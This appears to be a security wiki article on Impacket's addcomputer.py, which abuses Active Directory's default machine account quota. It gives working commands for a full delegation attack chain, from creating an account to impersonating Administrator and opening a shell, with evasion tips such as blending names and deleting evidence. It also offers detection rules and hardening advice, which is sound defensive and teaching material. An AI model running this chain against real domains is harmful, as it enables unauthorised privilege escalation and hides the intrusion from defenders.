

title: "addcomputer.py"
script: "examples/addcomputer.py"
category: "AD Modification"
status: "Published"
protocols:
  - SAMR
  - LDAP
  - LDAPS
  - MSRPC
ms_specs:
  - MS-SAMR
  - MS-ADTS
  - MS-RPCE
mitre_techniques:
  - T1136.002
  - T1078.002
  - T1098
auth_types:
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/ad_modification
  - status/published
  - protocol/samr
  - protocol/ldap
  - protocol/ldaps
  - authentication/ntlm
  - authentication/kerberos
  - technique/computer_account_creation
  - technique/machine_account_quota
  - technique/rbcd_prerequisite
  - mitre/T1136/002
  - mitre/T1078/002
  - mitre/T1098
aliases:
  - addcomputer
  - impacket-addcomputer
  - machine_account_creation
  - add_computer


# addcomputer.py

> **One line summary:** Creates a new Active Directory computer account using either SAMR (default, over SMB) or LDAPS, leveraging the default `MachineAccountQuota` of 10 that lets any authenticated domain user create up to ten computer accounts, which is almost always the first step in the Resource Based Constrained Delegation attack chain.

| Field | Value |
|:---|:---|
| Script | `examples/addcomputer.py` |
| Category | AD Modification |
| Status | Published |
| Primary protocols | SAMR, LDAPS |
| Primary Microsoft specifications | `[MS-SAMR]`, `[MS-ADTS]`, `[MS-RPCE]` |
| MITRE ATT&CK techniques | T1136.002 Create Domain Account, T1078.002 Domain Accounts, T1098 Account Manipulation |
| Authentication types supported | Password, NT hash, AES key, Kerberos ccache |
| First appearance in Impacket | 2018 (originally inspired by PowerMad by Kevin Robertson) |
| Original authors | `@JaGoTu` and `@agsolino`, with the LDAPS method contributed by `@ShutdownRepo` |


## Prerequisites

This article builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`smbclient.py`](../05_smb_tools/smbclient.md) for the four authentication modes.
- [`samrdump.py`](../01_recon_and_enumeration/samrdump.md) for the SAMR protocol foundations, the handle based call pattern, and well known RIDs.
- [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md) for the RBCD attack chain context that this tool enables.
- [`rbcd.py`](rbcd.md) (the companion article) for what happens next with the created computer account.

This article is deliberately focused. `addcomputer.py` is a small, single purpose tool. The full attack chain it participates in is documented across `findDelegation.py`, `getST.py`, and `rbcd.py`.


## What it does

`addcomputer.py` creates a new computer account in Active Directory. The tool supports two creation methods:

- **SAMR method (default).** Uses the Security Account Manager Remote protocol over SMB on port 445. Creates the computer account without Service Principal Names.
- **LDAPS method.** Uses LDAP over SSL on port 636. Creates the computer account with the standard set of SPNs (HOST/, RestrictedKrbHost/).

Both methods produce a functional computer account with a password that the attacker chose. The account appears in the directory like any other computer account and is immediately usable for authentication.

The reason a reader of this wiki cares about this tool is the Resource Based Constrained Delegation attack chain documented in [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md) and [`getST.py`](../02_kerberos_attacks/getST.md). The RBCD chain requires the attacker to control an account with a Service Principal Name. User accounts typically do not have SPNs. Computer accounts automatically do. `addcomputer.py` is how the attacker creates a controlled computer account from outside the domain.

The secondary use case is to change the password of an existing computer account (via `-no-add`), which is useful in specific attack scenarios including the Shadow Credentials follow up.


## Why it exists

When Active Directory was designed in the late 1990s, the ability to add a workstation to the domain was intended to be a routine operation. A user sitting at a new workstation should be able to join that workstation to the domain using their own credentials, without needing an administrator to provision a computer account first.

Microsoft implemented this by granting the "Add workstations to domain" privilege (`SeMachineAccountPrivilege`) to the `Authenticated Users` group by default, and by setting the `ms-DS-MachineAccountQuota` attribute on the domain to `10`. Any authenticated user can create up to 10 computer accounts in the domain using their own credentials.

This was reasonable when workstations were expensive, rare, and manually provisioned. It has aged poorly. In modern environments:

- Workstations are provisioned programmatically through MDM or SCCM, not by end users.
- The ten account allowance is rarely used for its original purpose.
- The allowance is however the foundational prerequisite for the RBCD attack chain, which has been the dominant AD privilege escalation pattern since 2018.

Microsoft's recommended baseline since 2020 is to set `MachineAccountQuota` to `0`, eliminating the ability for ordinary users to create computer accounts. The default remains `10` for backward compatibility. Most production domains have not changed the default.

`addcomputer.py` was originally inspired by Kevin Robertson's PowerMad tool for Windows (`New-MachineAccount`), which demonstrated that the computer account creation primitive was exploitable. The Impacket version by `@JaGoTu` and `@agsolino` brought the same capability to Linux attacker hosts. The LDAPS method was added later by `@ShutdownRepo` to support scenarios where the SAMR method fails (typically because `Authenticated Users` were removed from the "Add workstations to domain" privilege).


## The protocol theory

The theory here is simple because the tool does one focused thing. The SAMR foundations are in [`samrdump.py`](../01_recon_and_enumeration/samrdump.md).

### MachineAccountQuota

The `ms-DS-MachineAccountQuota` attribute is a single integer stored on the domain root object. It limits how many computer accounts a single security principal can create. The default is 10.

Every time a user creates a computer account, the DC increments a counter associated with that user (the counter is the count of computer accounts whose `ms-DS-CreatorSID` attribute matches the user's SID). When the counter reaches `MachineAccountQuota`, further creation attempts fail with `ERROR_DS_MACHINE_ACCOUNT_QUOTA_EXCEEDED`.

Critical nuances:

- **Domain Admins are not subject to the quota.** They can create unlimited computer accounts.
- **The quota applies per security principal**, not per session. Deleting a created account does not restore a quota slot; the `ms-DS-CreatorSID` association persists.
- **Protected Users and service accounts are generally not blocked** by the quota, though the specific behavior depends on their group memberships.

`addcomputer.py` detects the quota exhaustion error and reports it helpfully: `ERROR_DS_MACHINE_ACCOUNT_QUOTA_EXCEEDED`. If you see this, you need a different account (or a different attack path).

### The SAMR method

The SAMR path uses the same handle based call pattern documented in [`samrdump.py`](../01_recon_and_enumeration/samrdump.md), but with different calls:

| Call | Purpose |
|:---|:---|
| `SamrConnect` | Connect to the SAM database on the DC. |
| `SamrLookupDomainInSamServer` | Resolve the domain name to a domain handle. |
| `SamrOpenDomain` | Open a handle to the domain. |
| `SamrCreateUser2InDomain` | Create the new user object. The `AccountType` parameter is set to `USER_WORKSTATION_TRUST_ACCOUNT` (`0x80`), which marks the account as a computer. |
| `SamrSetInformationUser2` | Set the account password and UAC flags (`WORKSTATION_TRUST_ACCOUNT` = `0x1000` plus `ACCOUNTDISABLE` cleared). |
| `SamrCloseHandle` | Close all handles on cleanup. |

Critical detail: **the SAMR method creates the account without SPNs.** This is a limitation of the SAMR interface; SAMR does not expose a way to write the `servicePrincipalName` attribute. Without SPNs, the account cannot be used as the target of constrained delegation (though it can still be used as the source in RBCD). For RBCD specifically, this is fine because the attacker controlled account is the source, not the target.

### The LDAPS method

The LDAPS path uses a single LDAP `add` operation over SSL. The reason LDAPS (not plain LDAP) is required: LDAP refuses to accept the `unicodePwd` attribute on a non encrypted connection, because the password would otherwise transit in cleartext.

The LDAP add specifies the computer account's `dn` (typically `CN=<name>,CN=Computers,DC=<domain>`), `objectClass` (computer), `sAMAccountName` (with the trailing `$`), `userAccountControl` (with the `WORKSTATION_TRUST_ACCOUNT` flag), `unicodePwd` (the encoded password), and `servicePrincipalName` (auto populated with `HOST/<name>` and `RestrictedKrbHost/<name>` entries).

The result is a complete computer account with proper SPNs, ready for any Kerberos operation that needs an SPN including being the target of constrained delegation.

### The account created

Either method produces a computer account with:

- `sAMAccountName` ending in `$` (the convention for machine accounts).
- `userAccountControl` set to `WORKSTATION_TRUST_ACCOUNT` (`0x1000`). Note: this is not `SERVER_TRUST_ACCOUNT` (`0x2000`) which would make it a domain controller.
- A password set by the attacker (or randomly generated).
- `ms-DS-CreatorSID` pointing to the SID of the account that created it. This is the attribution field that BloodHound and auditors use to trace which user created which computer.

### Why computer accounts are privileged

A standard user account has no SPN and cannot request a forwardable Service Ticket to itself via S4U2Self (because S4U2Self requires the requesting account to have an SPN for the resulting ticket to be forwardable). Computer accounts have SPNs by default because every Windows machine exposes services like CIFS, LDAP, and HOST.

The consequence: a controlled computer account can perform S4U2Self to any user, producing a forwardable ticket. Combined with S4U2Proxy (which needs a forwardable ticket as input), this enables the full RBCD attack chain. See [`getST.py`](../02_kerberos_attacks/getST.md) for the details of how the ticket is used.


## How the tool works internally

The script is short and follows a branch on `-method`.

1. **Argument parsing.** Standard target string plus `-method`, `-port`, `-computer-name`, `-computer-pass`, `-computer-group`, `-no-add`, `-delete`, plus the usual authentication flags.

2. **Credential resolution.** Standard Impacket.

3. **Name and password generation.** If `-computer-name` is not supplied, generate `DESKTOP-[A-Z0-9]{8}$`. If `-computer-pass` is not supplied, generate a 32 character random alphanumeric password. Both defaults are intended to look like legitimate provisioning.

4. **SAMR branch (default):**
    - Establish an SMB connection to the target DC.
    - Bind to SAMR on `\pipe\samr`.
    - Execute the call sequence described in the protocol theory section.
    - Output the account name and password on success.

5. **LDAPS branch (`-method LDAPS`):**
    - Establish an LDAPS connection to the DC.
    - Build the LDAP add entry with the required attributes.
    - Submit the add operation.
    - Output the account name and password on success.

6. **`-no-add` mode:**
    - Instead of creating a new account, modify the password of an existing account.
    - SAMR path uses `SamrSetInformationUser2` with the new password.
    - LDAPS path uses a `modify` operation on `unicodePwd`.
    - The account must already exist and the authenticating user must have write access to it.

7. **`-delete` mode:**
    - Remove the existing computer account.
    - SAMR path uses `SamrDeleteUser`.
    - LDAPS path uses a `delete` operation.
    - Useful for cleanup after an RBCD attack to remove evidence of the attack chain.

8. **Error handling.** The tool decodes specific errors:
    - `ERROR_DS_MACHINE_ACCOUNT_QUOTA_EXCEEDED`: quota reached.
    - `ERROR_DS_USER_UNABLE_TO_MODIFY_OWNER`: the creating account lacks necessary privileges.
    - `STATUS_PASSWORD_RESTRICTION`: domain password policy rejects the generated password (rare but happens with unusually strict policies).


## Authentication options

Standard four mode pattern from [`smbclient.py`](../05_smb_tools/smbclient.md).

### Cleartext password

```bash
addcomputer.py CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

### NT hash

```bash
addcomputer.py -hashes :<nthash> CORP.LOCAL/alice -dc-ip 10.0.0.10
```

### AES key

```bash
addcomputer.py -aesKey <hex> CORP.LOCAL/alice -dc-ip 10.0.0.10
```

### Kerberos ccache

```bash
export KRB5CCNAME=alice.ccache
addcomputer.py -k -no-pass CORP.LOCAL/alice -dc-ip 10.0.0.10
```

### Minimum required privileges

Any authenticated domain user, assuming:

- `MachineAccountQuota` is greater than zero (default 10).
- The user has not exhausted their quota.
- The user has the `SeMachineAccountPrivilege` (granted to `Authenticated Users` by default).

No elevated privileges are required. The tool succeeds with an ordinary low privilege domain account in default AD configurations.


## Practical usage

### Default invocation (random name and password)

```bash
addcomputer.py CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Output:

```text
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account DESKTOP-X7K2M9N4$ with password xK3m9pLqR7vBnT2wFz8Hj4Qc6YdSaE1u.
```

The random name and 32 character password are chosen to blend in with legitimately provisioned machines. Record them; you will need both for the subsequent RBCD steps.

### Specified name and password

```bash
addcomputer.py -computer-name 'EVILCOMP$' -computer-pass 'P@ssw0rd123!' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Explicit name and password are useful when you need to reference the account by name in later commands.

### LDAPS method

```bash
addcomputer.py -method LDAPS -computer-name 'EVILCOMP$' -computer-pass 'P@ssw0rd123!' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Use LDAPS when SAMR is blocked (some environments remove `Authenticated Users` from the "Add workstations to domain" privilege but leave the equivalent LDAP permission in place), or when you need the account to have proper SPNs (for constrained delegation targeting scenarios).

### Change password of an existing account (no creation)

```bash
addcomputer.py -no-add -computer-name 'EXISTING$' -computer-pass 'NewP@ss' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Only works if the authenticating user has write access to the existing account's password attribute. This is a narrower privilege than creating new accounts.

### Delete an existing account

```bash
addcomputer.py -delete -computer-name 'EVILCOMP$' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Cleanup after an RBCD attack. Removes the account and its `ms-DS-CreatorSID` attribution. The attack events remain in the log, but the persistent evidence (a stranded computer account) is gone.

### Specify a non default OU

```bash
addcomputer.py -computer-group 'OU=Workstations,DC=corp,DC=local' \
  -computer-name 'EVILCOMP$' -computer-pass 'P@ss' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Default is `CN=Computers,DC=<domain>`. A custom OU can be chosen either for stealth (blending with the target's organizational structure) or out of necessity if the default container has been secured.

### Full RBCD attack chain

```bash
# Step 1: Create a computer account (this article)
addcomputer.py -computer-name 'EVILCOMP$' -computer-pass 'P@ss' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10

# Step 2: Grant the new account RBCD rights on the target (see rbcd.py)
rbcd.py -delegate-from 'EVILCOMP$' -delegate-to 'TARGET$' -action write \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10

# Step 3: Exploit with getST.py
getST.py -spn cifs/target.corp.local -impersonate Administrator \
  CORP.LOCAL/'EVILCOMP$':'P@ss' -dc-ip 10.0.0.10

# Step 4: Use the ticket
export KRB5CCNAME=Administrator@cifs_target.corp.local@CORP.LOCAL.ccache
psexec.py -k -no-pass CORP.LOCAL/Administrator@target.corp.local

# Step 5: Cleanup
addcomputer.py -delete -computer-name 'EVILCOMP$' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

This is the canonical RBCD chain end to end. Each step is documented in its own article.

### Key flags

| Flag | Meaning |
|:---|:---|
| `-method <method>` | `SAMR` (default) or `LDAPS`. |
| `-port <port>` | Override the default port. 139/445 for SAMR, 636 for LDAPS. |
| `-computer-name <name>` | Override the random name (must end in `$`). |
| `-computer-pass <pass>` | Override the random password. |
| `-computer-group <dn>` | Override the default `CN=Computers` container. |
| `-no-add` | Change password of existing account instead of creating. |
| `-delete` | Delete the specified account. |
| `-hashes`, `-aesKey`, `-k`, `-no-pass` | Standard authentication flags. |
| `-dc-ip`, `-dc-host` | Explicit DC address. |


## What it looks like on the wire

The wire traffic is short and clean in both methods.

### SAMR method

- TCP connection to port 445 (SMB) on the target DC.
- SMB session establishment.
- Open `\pipe\samr`.
- DCERPC bind to SAMR (UUID `12345778-1234-abcd-ef00-0123456789ac`).
- The SAMR call sequence from the protocol theory section.
- SMB session close.

### LDAPS method

- TCP connection to port 636 (LDAPS) on the target DC.
- TLS handshake.
- LDAP bind (SASL with GSS-SPNEGO typically).
- LDAP add operation for the new computer object.
- LDAP unbind.

### Wireshark filters

```text
samr                                  # SAMR traffic (SAMR method)
ldap                                  # LDAP traffic (unencrypted; rarely seen)
tls.handshake.extensions_server_name contains "domain.local"   # LDAPS connection
```

LDAPS hides the add operation contents from passive observers. SAMR does not encrypt by default in older configurations but does when SMB signing and sealing are enabled.


## What it looks like in logs

Account creation is one of the more audited events in AD. The signatures are clear.

### Event ID 4741: Computer Account Created

The canonical signal. The fields:

| Field | Value |
|:---|:---|
| TargetUserName | The new computer account name (with the trailing `$`). |
| TargetDomainName | The domain. |
| SubjectUserName | The creating account. |
| SubjectUserSid | The creator's SID. |
| SidHistory | `-` (the field exists for account migration scenarios and is almost always empty). |
| OldUacValue | `0x0` (the account did not exist before). |
| NewUacValue | `0x1000` (`WORKSTATION_TRUST_ACCOUNT`). |
| PrimaryGroupId | `515` (Domain Computers). |

A 4741 event with `SubjectUserName` being a low privilege user is the highest fidelity signal of `addcomputer.py` (or equivalent tools like PowerMad). Domain administrators legitimately create computer accounts; ordinary users almost never do, even in environments that have not set `MachineAccountQuota` to 0.

### Event ID 5136: Directory Service Object Modified

Fires for the LDAPS method as the computer object's attributes are written. The fields show:

- `ObjectDN`: the DN of the new computer object.
- `OperationType`: `%%14674` (value added).
- `AttributeLDAPDisplayName`: the attribute being written (one event per attribute).

### Event ID 4624: Logon

The initial authentication to the DC. Logon Type 3 (network), typically using NTLM or Kerberos.

### A complete Sigma rule

```yaml
title: Computer Account Created by Non-Privileged User
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4741
    NewUacValue: '0x1000'
  filter_admins:
    SubjectUserName:
      - 'Administrator'
      - 'svc_domainjoin'
  filter_computers:
    SubjectUserName|endswith: '$'
  condition: selection and not filter_admins and not filter_computers
level: high
```

Tune the `filter_admins` list for your environment. Legitimate domain join infrastructure (SCCM service accounts, MDM integration accounts) should be on the allow list.


## Detection and defense

### Detection opportunities

The detection story is excellent here. 4741 is authoritative, cheap to collect, and highly signal.

**4741 from non privileged users.** The primary detection. Any non administrative account creating a computer account is suspicious by default. Tune against the legitimate provisioning flows in your environment.

**4741 with anomalous naming patterns.** Auto generated names like `DESKTOP-X7K2M9N4$` match the `addcomputer.py` default pattern. If your legitimate provisioning uses a specific naming convention (e.g., `WS-<site>-<number>`), any creation that does not match is suspicious regardless of who created it.

**High frequency 4741 from a single source.** An attacker enumerating attack paths might create multiple computer accounts. The quota limits it to 10 per user, but 3 or more in a short window from one user is anomalous.

**`ms-DS-CreatorSID` audit.** Periodically enumerate all computer accounts and their creator SIDs. Any computer whose `ms-DS-CreatorSID` is not a known provisioning account is a finding. PowerShell:

```powershell
Get-ADComputer -Filter * -Properties ms-DS-CreatorSID |
  Where-Object { $_.'ms-DS-CreatorSID' -ne $null } |
  Select-Object Name, ms-DS-CreatorSID, whenCreated
```

### Preventive controls

- **Set `MachineAccountQuota` to `0`.** The single most important hardening for this attack surface. Microsoft's recommended baseline since 2020. Blocks `addcomputer.py` (and every other tool that relies on the quota) at the root.

    ```powershell
    Set-ADDomain -Identity (Get-ADDomain) -Replace @{'ms-DS-MachineAccountQuota' = 0}
    ```

    After setting, legitimate computer account creation must go through accounts explicitly granted the "Add workstations to domain" privilege or equivalent LDAP ACLs.

- **Remove `Authenticated Users` from "Add workstations to domain" privilege.** An additional layer on top of `MachineAccountQuota`. Even with MAQ > 0, removing this privilege blocks users who are not explicitly granted it from creating accounts.
- **Remove `Authenticated Users` LDAP create child rights on the Computers container.** The LDAPS path uses these rights rather than `MachineAccountQuota`. Both need to be hardened to block `addcomputer.py` completely.
- **Monitor for 4741 from unexpected sources.** The detection rules above. Even with hardening in place, monitoring is the final defense.
- **Protected Users group for administrative accounts.** Although the quota does not apply to Domain Admins, compromising a Domain Admin credential is harder if they are in Protected Users. Reduces the likelihood of an attacker ever reaching the point where the quota matters.


## Related tools and attack chains

### The RBCD chain

Every time `addcomputer.py` is used offensively, the typical follow on is [`rbcd.py`](rbcd.md) (next article) and then [`getST.py`](../02_kerberos_attacks/getST.md). The three form the canonical RBCD exploitation workflow:



### Shadow Credentials

An alternative follow on: instead of RBCD, use [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md)'s `--shadow-credentials` mode or a direct LDAPS write to set the `msDS-KeyCredentialLink` attribute on the target. This produces a PKINIT based authentication path equivalent to password possession, without the S4U complexity. `addcomputer.py` is typically used to create the attacker controlled computer account that will perform the authentication step in that chain.

### Discovery pairs

- **[`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md)** identifies RBCD targets. Run before `addcomputer.py` to know where the attack will go.
- **BloodHound** identifies accounts that can write `msDS-AllowedToActOnBehalfOfOtherIdentity` on target computers. These are the RBCD candidates; pair with `addcomputer.py` plus `rbcd.py`.

### Related AD modification tools

- **[`rbcd.py`](rbcd.md)** writes the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. The companion to this tool.
- **[`changepasswd.py`](changepasswd.md)** is a separate password change tool for user accounts (not computer accounts).
- **[`dacledit.py`](dacledit.md)** modifies DACLs on AD objects. Broader capability than `addcomputer.py` but complementary in attack chains that grant rights rather than creating new principals.
- **[`owneredit.py`](owneredit.md)** changes object ownership. Useful for DACL based escalation chains.


## Further reading

- **`[MS-SAMR]`: Security Account Manager Remote Protocol.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/`. Section 3.1.5.4 covers user creation.
- **Kevin Robertson "PowerMad"** at `https://github.com/Kevin-Robertson/Powermad`. The original Windows tool that inspired `addcomputer.py`. The `New-MachineAccount` function implements the same primitive.
- **Microsoft `ms-DS-MachineAccountQuota` documentation** at `https://learn.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-machineaccountquota`. Authoritative reference for the quota attribute.
- **Microsoft "Reducing the Active Directory attack surface"** at `https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/`. General hardening guidance that includes setting `MachineAccountQuota` to 0.
- **Elad Shamir "Wagging the Dog"** at `https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html`. Explains why the `MachineAccountQuota` matters for RBCD and why Microsoft's default is the enabling condition for the attack.
- **NetSPI "MachineAccountQuota is useful sometimes"** at `https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/`. Practical discussion of the attribute's role in red team operations.
- **The Hacker Recipes "addcomputer.py"** at `https://tools.thehacker.recipes/impacket/examples/addcomputer.py`. Additional practical usage notes.
- **MITRE ATT&CK T1136.002 Create Domain Account** at `https://attack.mitre.org/techniques/T1136/002/`. The technique reference.

Run `addcomputer.py` once in a lab against your own domain. Observe the 4741 event in the Security log. Enumerate the created account with `Get-ADComputer`. Note the `ms-DS-CreatorSID` attribute populated with your user's SID. Then run the PowerShell query to find all computers with a non empty `ms-DS-CreatorSID`, understand what the baseline looks like in your environment, and build the detection rule that catches unexpected creators. This is the simplest AD attack chain primitive to practice against because the observation is so clear and the hardening is so well defined.
